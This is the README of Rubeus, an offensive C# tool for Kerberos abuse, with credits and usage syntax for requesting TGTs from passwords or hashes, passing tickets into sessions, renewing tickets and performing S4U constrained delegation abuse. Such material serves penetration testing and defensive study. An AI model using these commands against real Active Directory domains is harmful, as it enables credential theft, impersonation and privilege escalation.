 # Rubeus

----

Rubeus is a C# toolset for raw Kerberos interaction and abuses. It is **heavily** adapted from [Benjamin Delpy](https://twitter.com/gentilkiwi)'s [Kekeo](https://github.com/gentilkiwi/kekeo/) project (CC BY-NC-SA 4.0 license) and [Vincent LE TOUX](https://twitter.com/mysmartlogon)'s [MakeMeEnterpriseAdmin](https://github.com/vletoux/MakeMeEnterpriseAdmin) project (GPL v3.0 license). Full credit goes to Benjamin and Vincent for working out the hard components of weaponization- without their prior work this project would not exist.

Rubeus also uses a C# ASN.1 parsing/encoding library from [Thomas Pornin](https://github.com/pornin) named [DDer](https://github.com/pornin/DDer) that was released with an "MIT-like" license. Huge thanks to Thomas for his clean and stable code!

The [KerberosRequestorSecurityToken.GetRequest](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method for Kerberoasting was contributed to PowerView by [@machosec](https://twitter.com/machosec).

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this code base.

Rubeus is licensed under the BSD 3-Clause license.


## Usage

    Ticket requests and renewals:

        Retrieve a TGT based on a user password/hash, optionally applying to the current logon session or a specific LUID:
            Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:RC4|AES256] | /rc4:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ptt] [/luid]

        Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
            Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:RC4|AES256] |/rc4:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

        Retrieve a service ticket for one or more SPNs, optionally applying the ticket:
            Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/dc:DOMAIN_CONTROLLER] [/ptt]

        Renew a TGT, optionally applying the ticket or auto-renewing the ticket up to its renew-till limit:
            Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/ptt] [/autorenew]


    Constrained delegation abuse:

        Perform S4U constrained delegation abuse:
            Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/ptt]
            Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/ptt]

